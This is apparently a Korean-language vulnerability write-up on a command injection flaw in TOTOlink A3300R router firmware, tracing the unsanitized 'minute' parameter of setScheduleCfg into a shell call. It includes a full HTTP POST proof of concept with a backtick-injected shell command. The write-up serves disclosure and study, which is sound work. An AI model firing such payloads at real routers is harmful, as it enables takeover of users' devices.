




## URL

[TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/TOTOLINK%20A3300R%20setScheduleCfg.md)

## Target

- TOTOlink A3300R Firmware Version: V17.0.0cu.557_B20221024

## Explain

TOTOlink 사의 라우터 제품인 A3300R의 펌웨어에서 Command Injection 취약점이 발견되었습니다.

펌웨어를 추출하고 라이브러리들의 목록을 살펴보면 `libcscommon.so`라는 라이브러리가 있는 것을 확인할 수 있습니다. 여기에 정의된 함수들 중 `Uci_Set_Str`이란 함수에서는 아래처럼 다양한 문자열들을 인자로 `snprintf` 함수를 호출해서 `uci -c %s set %s.%s.%s=\"%s\"`형태의 문자열을 포맷팅하고 이를 인자로 `CsteSystem`함수를 호출합니다.



 `CsteSystem` 함수에서는 인자로 전달 받은 문자열을 사용해서 `execv("/bin/sh", <cmd line>)`을 호출하여 실행파일 uci를 명령줄 인자와 함께 실행합니다.



취약점은 `setScheculeCfg` 요청을 받았을 때 `minute` 파라미터로 전달한 값이 아래처럼 `Uci_Set_Str` 함수의 인자로 아무런 sanitizing 없이 사용되면서 발생합니다.



결과적으로 `Uci_Set_Str`함수에서 `snprintf`로 포맷팅된 아래와 같은 문자열을 `CsteSystem`함수 호출에 사용하면서 Command Injection이 가능하게 됩니다.

```bash
uci -c {pcVar3} set {pcVar2}.rebootsch.minute=\"{minute}\"
```

아래의 PoC는 `ls>/web/345.txt`라는 OS Command를 Injection하는 페이로드를 `minute` 파라미터를 통해 전달합니다.

```
POST /cgi-bin/cstecgi.cgi?token=AEAF12ADD613E086 HTTP/1.1
Host: itotolink.net
Content-Length: 107
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"mode":"1","hour":"1","minute":"14`ls>/web/345.txt`","week":"64","recHour":"","topicurl":"setScheduleCfg"}
```

`minute`로 전달된 ``14\`ls>/web/345.txt``는 `snprintf`를 거쳐 아래와 같이 `CsteSystem` 함수 호출에 사용됩니다

```c
CsteSystem("uci -c {pcVar3} set {pcVar2}.rebootsch.minute=\"14`ls>/web/345.txt`\"", 0);
```

backtick(`` ` ``)으로 감싸진 `ls>/web/345.txt` 가 실행되면서 `ls`의 출력이 `/web/345.txt`라는 파일에 저장되고  `/345.txt`로 GET 요청을 보내는 것으로 Command Injection이 트리거된 것을 확인할 수 있습니다.



이 취약점 외에도 CVE-2024-23059, CVE-2024-23060 등 유사하거나 같은 방식으로 Command Injection이 가능한 취약점이 다수 존재합니다.

## Reference

- [Related CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-16807/product_id-141084/version_id-740353/Totolink-A3300r-Firmware-17.0.0cu.557-b20221024.html)